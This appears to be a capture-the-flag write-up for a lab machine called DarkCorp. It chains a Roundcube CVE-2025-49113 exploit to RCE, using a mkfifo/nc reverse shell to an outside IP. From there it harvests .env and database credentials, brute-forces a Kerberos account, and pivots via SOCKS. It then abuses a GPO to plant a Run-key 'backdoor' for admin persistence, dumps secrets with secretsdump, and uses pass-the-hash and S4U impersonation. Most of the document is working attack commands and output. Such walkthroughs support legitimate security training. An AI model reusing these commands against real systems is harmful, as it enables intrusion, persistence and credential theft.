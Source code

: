 
![](Dark_corp-bg.png)

## INFO


```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 33:41:ed:0a:a5:1a:86:d0:cc:2a:a6:2b:8d:8d:b2:ad (ECDSA)
|_  256 04:ad:7e:ba:11:0e:e0:fb:d0:80:d3:24:c2:3e:2c:c5 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Site doesn't have a title (text/html).
```


``` Domaain
10.10.11.54     drip.htb  mail.drip.htb
```

Its RoundCube WebMail Server ; Lets register and login- to the portal for more info.


``` RoundCube_Version
Roundcube Webmail 1.6.7
```

This version of Rouncube is vulnerable to CVE-2024-4200 and CVE-2025-49113

CVE-2025-49113 is a dangerous exploit , just need a valid user and boom , but this aint the intended path , Check the exploit we get direct [RCE](https://github.com/hakaioffsec/CVE-2025-49113-exploit) 

CVE-2024-4200 , attacker can inject malicious JavaScript in a message and take advantage of a desanitization issue when parsing the HTML inside the message, which then can be used to exfiltrate email content from the victim's inbox. [XSS](https://github.com/DaniTheHack3r/CVE-2024-42009-PoC)



## Own Way 
### Unintended RCE [CVE-2025-49113]

```
php CVE-2025-49113.php http://mail.drip.htb/ admin admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.204 1337 >/tmp/f"
```

Once we get the RCE Search for juicy things....

```
www-data@drip:/var/www/html/dashboard$ cat .env

# If DB credentials (if NOT provided, or wrong values SQLite is used) 
DB_ENGINE=postgresql
DB_HOST=localhost
DB_NAME=dripmail
DB_USERNAME=dripmail_dba
DB_PASS=2Qa2SsBkQvsc
DB_PORT=5432

SQLALCHEMY_DATABASE_URI = 'postgresql://dripmail_dba:2Qa2SsBkQvsc@localhost/dripmail'
SQLALCHEMY_TRACK_MODIFICATIONS = True
SECRET_KEY = 'GCqtvsJtexx5B7xHNVxVj0y2X0m10jq'
MAIL_SERVER = 'drip.htb'
MAIL_PORT = 25
MAIL_USE_TLS = False
MAIL_USE_SSL = False
MAIL_USERNAME = None
MAIL_PASSWORD = None
MAIL_DEFAULT_SENDER = 'support@drip.htb'
```


Get Shell as postgres user and check /var/backups/postgres Then decrypt the file with GPG -> dev-dripmail.sql where we retrive usernames and hashes along with that.


### Domain Admin Access 

Once we got the doamin user credentials ; Now its time to pwn the AD.

```
ebelford :: ThePlague61780  [linux host only accessible ; ]

└─# sshpass -p ThePlague61780 ssh -o StrictHostKeyChecking=no ebelford@drip.htb

victor.r :: victor1gustavo@# [Domain User ]
```


```sshuttle
sshuttle -r ebelford@drip.htb 172.16.20.0/24
```


Run Bloodhound !

``` ssh_remote
ssh -o StrictHostKeyChecking=no -D 1080 ebelford@drip.htb
```

```/etc/proxychains4.conf
dnat 10.10.11.54  172.16.20.1

[ProxyList]
# add proxy here ...

socks5 127.0.0.1 1080

```


```
proxychains bloodhound-python --domain darkcorp.htb --domain-controller dc-01.darkcorp.htb --nameserver 172.16.20.1 --username victor.r --password 'victor1gustavo@#' --collectionmethod all --dns-tcp --zip 
```


Our Guy Dont have higher privilege ; But TAYLOR.B.ADM seems intresting.

![](dark-corp-bloodhound.png)


Only way is BruteForce with Kerbrute !

``` pass-pol
└─# nxc smb dc-01.darkcorp.htb -u victor.r -p 'victor1gustavo@#' --pass-pol


Minimum password length: 7

Reset Account Lockout Counter: 30 minutes
```


-> make a password list with minimum pass. length is 7 max. 12 ; or just extract it from rockyou ; [Custom_rockyou.py](Custom_rockyou.py.md)

Transfer KErbrute and the custom_rockyou file to the Victim Machine ! 

```kerbrute
ebelford@drip:~$ ./Kerbrute_ bruteuser --dc 171.16.20.1 -d darkcorp.htb rockyou.txt taylor.b.adm -t 64


darkcorp.htb\taylor.b.adm:!QAZzaq1

```


### PRIV --> Group Policy Object (GPO) abuse in Windows for persistence and privilege escalation.


```proxy
sshuttle -r ebelford@drip.htb 172.16.20.0/24 
```

```winrm
evil-winrm -i dc-01.darkcorp.htb -u taylor.b.adm -p '!QAZzaq1' 
```


✅ Download & Execute Malicious Script

``` download
upload PowerGPOAbuse.ps1
```

Add User to Group via GPO

```
PS > . .\PowerGPOAbuse.ps1
PS > Add-GPOGroupMember -Member 'taylor.b.adm' -GPOIdentity 'SecurityUpdates'
True
```


✅ Persistence + PrivEsc via GPO 

--> Malicious GPO writes to HKLM\...\Run.

--> At every startup, a PowerShell cmd adds taylor.b.adm to Administrators.

--> Even if removed, it comes back → automatic re-admin + persistence.

 ```
 PS > Set-GPRegistryValue -Name "SecurityUpdates" `
-Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" `
-ValueName "backdoor" `
-Type String `
-Value "powershell -ExecutionPolicy Bypass -NoProfile -Command 'Add-LocalGroupMember -Group Administrators -Member taylor.b.adm'"
 
DisplayName      : SecurityUpdates
DomainName       : darkcorp.htb
Owner            : darkcorp\Domain Admins
Id               : 652cae9a-4bb7-49f2-9e52-3361f33ce786
GpoStatus        : AllSettingsEnabled
Description      : Windows Security Group Policy
CreationTime     : 1/3/2025 3:01:12 PM
ModificationTime : 9/30/2025 2:24:58 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 2, SysVol Version: 2
WmiFilter        :


PS> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.
```


Dump the secrets 

HOw ? --> We just added taylor.b.adm as local administrator --> GPO "Security Updates"


```secretsdump
impacket-secretsdump dc-01.darkcorp.htb/taylor.b.adm:'!QAZzaq1'@darkcorp.htb
```

```root.txt
evil-winrm -i darkcorp.htb -u administrator -H fcb3ca5a19a1ccf2d14c13e8b64cde0f 

root.txt : fcef13756501763e4c4c13468c6c99d8
```


![](Root_dark.png)


USER ATTACK ! IF we get MACHINE_ACCOUNT --> 


``` impersonate_s4uself
impacket-getST -self 'DARKCORP.HTB/WEB-01$' -altservice 'cifs/web-01.darkcorp.htb' -dc-ip 172.16.20.1 -impersonate administrator -hashes '8f33c7fc7ff515c1f358e488fbb8b675:8f33c7fc7ff515c1f358e488fbb8b675'
```


```user.txt
export KRB5CCNAME=administrator@cifs_web-01.darkcorp.htb@DARKCORP.HTB.ccache 


impacket-wmiexec darkcorp.htb/administrator@web-01.darkcorp.htb -k -no-pass -dc-ip 172.16.20.1

d84944725036fd8a17e7e080adb27221
```



![](User-darkcorp.png)